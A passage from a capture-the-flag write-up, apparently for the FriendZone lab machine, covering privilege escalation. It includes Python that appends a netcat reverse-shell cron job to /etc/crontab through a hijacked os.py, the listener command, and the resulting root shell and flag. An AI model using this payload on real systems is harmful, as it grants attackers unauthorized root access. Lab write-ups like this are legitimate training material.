 ## [](#solving) Step 4 - Privilege escalation

We can write these lines into the `os.py` file:

```python
shell = '''
* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your-ip> 4444 >/tmp/f
'''
f = open('/etc/crontab', 'a')
f.write(shell)
f.close()
```

Substituting `<your-ip>` by the IP of your local machine. We can see that the cronjob was successfully added:

```bash
friend@FriendZone:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4444 >/tmp/f
```

Now, we start our netcat on port 4444 and wait... After a while, we get the root shell:

```bash
$ nc -lnvp 4444
Connection from 10.129.35.203:34736
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/root.txt
132c1657472872848c0de6549a1d2a97
```

# [](#conclusions)Conclusion
